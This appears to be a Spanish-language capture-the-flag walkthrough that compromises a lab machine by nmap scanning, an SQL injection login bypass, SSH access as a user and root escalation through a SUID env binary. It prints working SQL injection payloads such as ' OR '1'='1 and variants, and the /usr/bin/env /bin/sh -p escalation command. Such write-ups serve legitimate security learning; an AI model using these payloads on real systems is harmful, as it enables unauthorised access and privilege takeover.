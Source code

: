 ## 1. Reconocimiento de Puertos con Nmap
Usamos `nmap` para detectar puertos abiertos y versiones de servicios:

```bash
sudo nmap <IP_DEL_OBJETIVO>
nmap -sV -p 22,80 <IP_DEL_OBJETIVO>
```

Servicios Identificados:

| PUERTO | SERVICIO | VERSIÓN             |
| ------ | -------- | ------------------- |
| 22/tcp | ssh      | OpenSSH 8.9p1       |
| 80/tcp | http     | Apache httpd 2.4.52 |

Esto nos indica que hay un servidor SSH y una aplicación web Apache, siendo esta última el probable punto de entrada para la inyección.
## 2. Explotación: Inyección SQL

Accedemos a la aplicación web en el puerto 80, que presenta un formulario de inicio de sesión.
### 2.1. Detección de Inyección SQL
Para verificar si la aplicación es vulnerable a inyección SQL, introducimos una comilla simple (`‘`) en el campo de contraseña:

*   **Usuario:** `user`
*   **Contraseña:** `‘`

Si la aplicación es vulnerable, un mensaje de error de sintaxis SQL confirmará la vulnerabilidad y el tipo de base de datos (ej. MariaDB):

```
SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
```

### 2.2. Bypass de Autenticación

Con la vulnerabilidad confirmada, podemos usar un payload para saltar la autenticación. El payload `‘ OR ‘1’=’1` manipula la consulta SQL para que siempre sea verdadera.

*   **Usuario:** `cualquier cosa`
*   **Contraseña:** ‘ OR ‘1’=’1

Tambien funciona:

User:' OR '1'='1'-- Pasword: cualquier cosa
User:' OR '1'='1'# Pasword: cualquier cosa
User:admin’ or 1=1— - Pasword: cualquier cosa

**Cómo funciona:**
La consulta original (ej. `SELECT * FROM users WHERE username = 'user' AND password = 'pass';`) se transforma en:

```sql
SELECT * FROM users WHERE username = 'cualquier cosa' AND password = '' OR '1'='1';
```

Dado que `‘1’='1'` es siempre verdadero, la condición `OR` hace que toda la cláusula `WHERE` sea verdadera, permitiendo el acceso. Otras variaciones como `‘ OR ‘1’='1'--` o `admin’ or 1=1— -` también funcionan.
## 3. Acceso Inicial vía SSH

Una vez obtenido un nombre de usuario (ej. "Dylan") a través del bypass de autenticación, intentamos acceder al sistema vía SSH:

```bash
ssh dylan@< IP_DEL_OBJETIVO >
```

El comando `whoami` confirmará el usuario actual.
## 4. Escalada de Privilegios
El objetivo es obtener privilegios de `root` buscando configuraciones erróneas.
### 4.1. Búsqueda de Binarios SUID

Buscamos archivos con el bit SUID habilitado que pertenecen a `root`. Estos archivos se ejecutan con los permisos de su propietario, lo que puede ser explotado.

```bash
find / -perm -4000 -user root 2>/dev/null
```

**salida**
```bash
/usr/lib/openssh/ssh-keysign 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper 
/usr/bin/mount 
/usr/bin/gpasswd 
/usr/bin/chfn 
/usr/bin/env ← 
/usr/bin/su
/usr/bin/newgrp 
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
```
Un binario común para explotar es `/usr/bin/env`.
### 4.2. Explotación de `env` (GTFOBins)

Consultamos [GTFOBins](https://gtfobins.github.io/) para encontrar cómo explotar `env`. La técnica es ejecutar `env` con un shell y el flag `-p` para mantener los privilegios de `root`:

```bash
/usr/bin/env /bin/sh -p
```

El flag `-p` asegura que el shell (`/bin/sh`) se ejecute con los permisos del propietario de `env` (que es `root`).

`whoami` muestra `root`.